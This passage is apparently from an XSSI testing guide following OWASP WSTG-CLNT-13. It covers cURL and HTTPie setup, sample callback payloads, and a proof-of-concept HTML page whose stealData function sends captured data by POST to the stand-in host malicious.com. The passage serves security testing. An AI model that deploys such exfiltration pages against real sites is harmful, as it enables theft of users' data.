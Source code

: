 - **cURL and HTTPie**: Send HTTP requests to test script or JSONP endpoints.
  - **cURL**:
    - Install on Linux:
      ```bash
      sudo apt install curl
      ```
    - Install on Windows/Mac: Pre-installed or download from [curl.se](https://curl.se/).
  - **HTTPie** (beginner-friendly):
    - Install on Linux/Mac:
      ```bash
      sudo apt install httpie
      ```
    - Install on Windows: `pip install httpie`.
    - Example:
      ```bash
      # cURL
      curl -i "http://example.com/data.js?callback=malicious"
      # HTTPie
      http "http://example.com/data.js?callback=malicious"
      ```

- **XSSI Tester**: A custom script or manual PoC for testing script inclusion.
  - Example PoC (see Testing Methodology).
  - **Note**: Host PoCs on a controlled server for ethical testing.

- **XSSI Payloads**: Curated payloads for testing.
  - Sample payloads:
    - `callback=alert`
    - `callback=maliciousFunction`
    - `//malicious.com/steal`
  - Resource: [OWASP XSSI Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Script_Inclusion_Cheat_Sheet.html).
  - **Tip**: Test payloads in JSONP callbacks or script URLs and monitor data leakage.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-CLNT-13, testing XSSI vulnerabilities across script inclusion, JSONP endpoints, sensitive data exposure, authentication, and cross-origin access.

### 1. Test Script Inclusion

**Objective**: Ensure JavaScript files do not expose sensitive data when included cross-origin.

**Steps**:
1. Identify JavaScript endpoints:
   - Use Network tab to find `.js` files or JSONP responses.
   - Search for `<script src>` in HTML.
2. Create a malicious page to include the script:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <script>
       function stealData(data) {
         fetch('http://malicious.com/steal', { method: 'POST', body: JSON.stringify(data) });
       }
     </script>
     <script src="http://example.com/data.js"></script>
   </body>
   </html>
   ```